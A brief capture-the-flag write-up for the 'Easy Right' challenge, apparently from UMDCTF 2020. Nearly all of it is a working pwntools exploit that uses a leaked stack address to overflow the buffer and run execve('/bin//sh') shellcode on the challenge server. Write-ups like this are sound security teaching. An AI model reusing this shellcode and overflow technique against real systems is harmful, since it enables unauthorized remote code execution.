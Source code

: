 # Easy Right 150 pts(61 solves) #
![TASK](https://imgur.com/KPAwfTa.png)

It was a simple Ret to shellcode task,and we are given a leak of the stack address , here is my exploit 

```python

from pwn import *
p=remote("142.93.113.134",9999)
#p=process("./baby")
data=p.recvline()
stack=int("0x"+data[-13:],16)
log.info("Stack address: "+hex(stack))
#pause()
shellcode="\x90\x90\x90\x90\x90\x90\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
OFFSET=cyclic(100)
payload=shellcode
payload+=OFFSET
payload+=p64(stack)
p.sendline(payload)
p.interactive()

```
**Note:** Here is the link of the binary [LINK](https://github.com/kahla-sec/CTF-Writeups/blob/master/UMDCTF%202020/Easy%20Right%3F/baby) and the [EXPLOIT](https://github.com/kahla-sec/CTF-Writeups/blob/master/UMDCTF%202020/Easy%20Right%3F/exp1.py)

Any questions you can DM on twitter @BelkahlaAhmed1 , thank you :D
